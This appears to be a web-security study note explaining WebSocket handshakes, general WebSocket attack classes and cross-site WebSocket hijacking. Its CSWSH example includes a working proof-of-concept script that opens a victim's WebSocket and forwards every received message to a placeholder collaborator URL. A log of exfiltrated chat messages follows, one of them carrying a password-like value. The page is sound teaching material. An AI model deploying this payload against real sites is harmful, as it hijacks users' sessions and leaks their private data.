 >[!question] What are WebSockets?
>WebSockets are a bi-directional, full duplex communications protocol initiated over HTTP. They are commonly used in modern web applications for streaming data and other asynchronous traffic.

# WebSockets 101

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data.

## Establishing connections

Protocols to open WebSocket:
- `wss://normal-website.com/chat`: WebSocket over TLS
- `ws://normal-website.com/chat`: clear-text WebSocket

To establish the connection, the browser and server perform a WebSocket handshake over HTTP:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

If the server accepts the connection, it returns a WebSocket handshake response like the following:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

At this point, the network connection remains open and can be used to send WebSocket messages in either direction.

>[!note]
>WebSocket messages can contain any content or data format, although in modern web application the JSON format is the most used 

# General attacks

In principle, practically any web security vulnerability might arise in relation to WebSockets:

- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as [SQL Injection](SQL%20Injection.md) or [XML External Entity Injection (XXE Injection)](XML%20External%20Entity%20Injection%20(XXE%20Injection).md)
- Some blind vulnerabilities reached via WebSockets might only be detectable using [out-of-band (OAST) techniques](https://portswigger.net/blog/oast-out-of-band-application-security-testing).
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) or other [Client side vulnerabilities](../Services/HTTP%20&%20HTTPS.md#Client%20side%20vulnerabilities)
- Manipulating the WebSocket handshake to exploit vulnerabilities
- Using cross-site WebSockets hijacking (CSWSH)

## Cross-site WebSockets hijacking (CSWSH)

 Cross-site WebSockets hijacking is a [Cross-Site Request Forgery (CSRF)](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#Cross-Site%20Request%20Forgery%20(CSRF)) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. 
 
 Unlike regular CSRF, the attacker gains **two-way interaction** with the compromised application. What happens next in the attack depends entirely on the application's logic and how it is using [WebSockets](https://portswigger.net/web-security/websockets). The attack might involve: 
- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.


>[!example]
>PoC hosted on the attacker server performing the CSRF and leaking the received information using ws:
>
>```html
><script>
>    var ws = new WebSocket('wss://your-websocket-url');
>    ws.onopen = function() {
>        ws.send("READY");
>    };
>    ws.onmessage = function(event) {
>        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
>    };
></script>
>```
>Data exfiltrated from the victim ws:
>```http
>...
10.0.4.85       2023-01-06 21:24:17 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22Hal%20Pline%22,%22content%22:%22Hello,%20how%20can%20I%20help?%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22CONNECTED%22,%22content%22:%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22You%22,%22content%22:%22Thanks,%20I%20hope%20this%20doesn&apos;t%20come%20back%20to%20bite%20me!%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
10.0.4.85       2023-01-06 21:24:18 +0000 "GET /log?a={%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20qhakj7ncjna6l17u20as%22} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"
|...
>```
